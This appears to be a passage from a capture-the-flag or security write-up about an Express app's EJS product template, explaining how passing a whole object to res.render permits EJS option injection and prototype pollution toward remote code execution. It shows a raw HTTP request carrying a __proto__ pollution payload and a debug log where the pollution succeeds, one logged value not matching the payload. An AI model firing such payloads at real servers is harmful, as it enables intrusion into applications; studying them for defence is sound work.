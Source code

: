 *product.ejs*
```js
<div class="modal-header border-bottom-0">
    <h1 class="modal-title fs-5"><%= productname %></h1>
    <% if(!print){ %>
    <button type="button" class="btn-close" data-bs-dismiss="modal" aria-label="Close"></button>
    <% } %>
</div>
<div class="modal-body py-0">
    <p><%- _1 %></p>
    <p>
        <strong>Price:</strong> <%= _2 %> (tax: <%= _3 %>)<br>
        <strong>Country:</strong> <%= _4 %>
    </p>
</div>
<% if(!print){ %>
<div class="modal-footer flex-column align-items-stretch w-100 gap-2 pb-3 border-top-0">
    <a id="pmPrint" class="btn btn-lg btn-secondary" href="#" role="button">Print</a>
</div>
<% } %>

<% if(print){ %>
<script>window.print();</script>
<% } %>
```


# Exploitation

The `res.render` method is called in a dangerous way [^1][^3][^6] , passing a direct object instead of the specific single parameters:

```js
res.render('product', data);
```

If we can pass an arbitrary object with specific EJS field, we can modify the internals of EJS and manipolate the engine, eventually obtaining RCE or SSTI [^2][^4][^5].

[^1]: https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce
[^2]: https://ejs.co/#docs
[^3]: https://eslam.io/posts/ejs-server-side-template-injection-rce/
[^4]: https://expressjs.com/en/api.html#res.render
[^5]: https://github.com/mde/ejs/wiki/Using-EJS-with-Express#passing-opts-with-data
[^6]: https://securitylab.github.com/advisories/GHSL-2021-021-tj-ejs/

We can also pollute `params` prototype with the following request:

```http
POST /product HTTP/1.1
Host: 127.0.0.1
Content-Length: 85
Cookie: rack.session=VvxFCu3UJnBiwLYC31tNUC9IwJvSGrveDSAblOvwwStzAXlc4sMDTSgxBHwFNlIDkSR9k1LZu%2BLeQnDn5te64tWWJJXyKm4TRxzubR2QU5rGN73KsOSRgoQsddpdIVANss9JBDWX8vQmm4DfMI4Px6ubVYRmA4xNitl%2FpEC0WfBYC45hDv7RYAkOxhXamz5vI3p6zrsA0Fkwpv8BLDkBemrrPnSB9VoKia51N0ozo8ejWz4U2qy%2FQFwLDE40rHK%2F50OqCbBLFZtc2PYTlnaoCT44nJ5M%2FIpqky%2B87V%2Fi0d25%2Bdc7PxYe7Dmaodr53%2F1IB1TBQgoQdeZBrUDPoIuNTPsfFOGwzDKEHozlxX2WsxiYRCDdF0QUSyKXBtnC4GrMZcC0ymWfAR0%2F%2FlRSXUmFLwZ56Wq3%2BCL88VKwb%2BAKPr%2BjSwUg5JGfDSxfFBxaU1xZx9BcXA%3D%3D--61WPwmXB5RpgpOQ7--goLjZjuIG4c6hwW1Gqqwzw%3D%3D
Connection: close

{"v":["asd","asdfg,99","321","gfds"],"__proto__":{"name":"polluted","foo":"bar"}}

--- Server debug log ---

> console.log(params);
{ v: [ 'desc', 'PLN4,99', '7%', 'Poland', 'sasd', '$' ] }
> console.log(params.foo);
bar
> console.log(params.name);
name
```


[^issue]: https://github.com/mde/ejs/issues/735